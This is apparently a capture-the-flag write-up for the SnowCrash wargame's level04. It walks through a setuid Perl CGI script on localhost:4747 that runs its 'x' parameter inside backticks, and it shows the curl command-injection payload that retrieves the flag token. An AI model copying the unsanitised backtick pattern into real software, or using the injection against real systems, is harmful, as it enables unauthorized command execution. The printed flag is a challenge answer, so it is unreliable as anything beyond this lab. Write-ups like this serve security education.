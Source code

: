 # Level04

## Hint

There appears to be a server running on `localhost:4747`, perhaps you can use it to get the flag.

## Answer

Let's check our current directory:
```
level04@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout*
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
-r-x------  1 level04 level04  675 Apr  3  2012 .profile*
```

Great ! We found an executable file, let's run it first !
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


```

Hmm, so nothing happened. Since this is a perl script, we can actually just read it:
```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Alright, from this code we can see that the server is running on `localhost:4747`, futhermore it takes the value of the `x` parameter and prints that value such as:
```
level04@SnowCrash:~$ curl localhost:4747/?x=hello
hello
```

As expected. We can now get the flag by running the following command:
```
level04@SnowCrash:~$ curl localhost:4747/?x='`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

The reason why this works is because we added [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) so that the command will be evaluated before the `echo` command is executed, moreover we add single quotes so that it evualuates the command on the server and now in our current shell.
